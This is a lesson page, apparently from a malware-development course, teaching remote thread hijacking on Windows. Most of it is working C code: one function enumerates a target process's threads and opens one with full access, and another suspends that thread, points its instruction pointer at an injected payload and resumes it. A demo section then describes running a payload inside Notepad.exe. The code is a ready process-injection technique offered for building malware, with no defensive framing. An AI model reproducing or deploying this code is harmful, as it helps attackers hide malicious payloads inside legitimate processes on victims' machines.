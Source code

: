 38. Thread Hijacking - Remote Thread Enumeration# [**38. Thread Hijacking - Remote Thread Enumeration**](https://maldevacademy.com/modules/38)

## **Thread Hijacking - Remote Thread Enumeration**

### **Introduction**

This module covers the usage of `CreateToolhelp32Snapshot` to enumerate threads of a remote process. Minor changes are made to the `GetLocalThreadHandle` function, shown in the previous module, to make it work against remote threads.

The logic remains the same where `CreateToolhelp32Snapshot`, `Thread32First` and `Thread32Next` are used to enumerate the target process's threads. The difference when targeting remote processes is that the main thread is a valid target for hijacking.

### **Remote Thread Enumeration Function**

`GetRemoteThreadhandle` will enumerate threads of a remote process. It takes 3 arguments:

* `dwProcessId` - This is the PID of the target process.
* `dwThreadId` - A pointer to a DWORD that will receive the target process's thread ID.
* `hThread` - A pointer to a HANDLE that will receive the handle to the remote thread.

One additional difference in the implementation of the `GetRemoteThreadhandle` function is that the target PID needs to be supplied. When targeting the local process that was not necessary because the `GetCurrentProcessId` WinAPI retrieved the local process's PID.


```
BOOL GetRemoteThreadhandle(IN DWORD dwProcessId, OUT DWORD* dwThreadId, OUT HANDLE* hThread) {

	HANDLE         hSnapShot  = NULL;
	THREADENTRY32  Thr        = {
		.dwSize = sizeof(THREADENTRY32)
	};

	// Takes a snapshot of the currently running processes's threads
	hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, NULL);
	if (hSnapShot == INVALID_HANDLE_VALUE) {
		printf("\n\t[!] CreateToolhelp32Snapshot Failed With Error : %d \n", GetLastError());
		goto _EndOfFunction;
	}

	// Retrieves information about the first thread encountered in the snapshot.
	if (!Thread32First(hSnapShot, &Thr)) {
		printf("\n\t[!] Thread32First Failed With Error : %d \n", GetLastError());
		goto _EndOfFunction;
	}

	do {
		// If the thread's PID is equal to the PID of the target process then
		// this thread is running under the target process
		if (Thr.th32OwnerProcessID == dwProcessId){

			*dwThreadId  = Thr.th32ThreadID;
			*hThread     = OpenThread(THREAD_ALL_ACCESS, FALSE, Thr.th32ThreadID);

			if (*hThread == NULL)
				printf("\n\t[!] OpenThread Failed With Error : %d \n", GetLastError());

			break;
		}

	// While there are threads remaining in the snapshot
	} while (Thread32Next(hSnapShot, &Thr));


_EndOfFunction:
	if (hSnapShot != NULL)
		CloseHandle(hSnapShot);
	if (*dwThreadId == NULL || *hThread == NULL)
		return FALSE;
	return TRUE;
}

```
### **Remote Thread Hijacking Function**

This part is similar to the hijack function seen in previous modules. Retrieve the remote process handle, inject the payload to the remote process and finally hijack the thread.


```
BOOL HijackThread(IN HANDLE hThread, IN PVOID pAddress) {

	CONTEXT ThreadCtx = {
		.ContextFlags = CONTEXT_ALL
	};

	// Suspend the thread
	SuspendThread(hThread);

	if (!GetThreadContext(hThread, &ThreadCtx)) {
		printf("\t[!] GetThreadContext Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	ThreadCtx.Rip = pAddress;

	if (!SetThreadContext(hThread, &ThreadCtx)) {
		printf("\t[!] SetThreadContext Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	printf("\t[#] Press <Enter> To Run ... ");
	getchar();

	ResumeThread(hThread);

	WaitForSingleObject(hThread, INFINITE);

	return TRUE;
}


```
### **Demo**

Getting the target process's PID. In this case, the target process is `Notepad.exe`.

[![](38%20Thread%20Hijacking%20-%20Remote%20Thread%20Enumeration%200856586d8db7435fadc7ae2b918da7b2/renum-109196659-5f5a1b94-3074-4774-8271-03a07b5f2c04.png)](38%20Thread%20Hijacking%20-%20Remote%20Thread%20Enumeration%200856586d8db7435fadc7ae2b918da7b2/renum-109196659-5f5a1b94-3074-4774-8271-03a07b5f2c04.png)Inject the payload and hijack thread ID `7136`. The thread stack shows that the address of the payload is the next job to be executed.

[![](38%20Thread%20Hijacking%20-%20Remote%20Thread%20Enumeration%200856586d8db7435fadc7ae2b918da7b2/renum-209196664-c43d380c-79ab-48c1-97c9-396c3c2b7c4d.png)](38%20Thread%20Hijacking%20-%20Remote%20Thread%20Enumeration%200856586d8db7435fadc7ae2b918da7b2/renum-209196664-c43d380c-79ab-48c1-97c9-396c3c2b7c4d.png)Finally, the payload is executed.

[![](38%20Thread%20Hijacking%20-%20Remote%20Thread%20Enumeration%200856586d8db7435fadc7ae2b918da7b2/renum-309196669-ebbdc23d-e0c2-436c-ac73-70f18c971c3b.png)](38%20Thread%20Hijacking%20-%20Remote%20Thread%20Enumeration%200856586d8db7435fadc7ae2b918da7b2/renum-309196669-ebbdc23d-e0c2-436c-ac73-70f18c971c3b.png)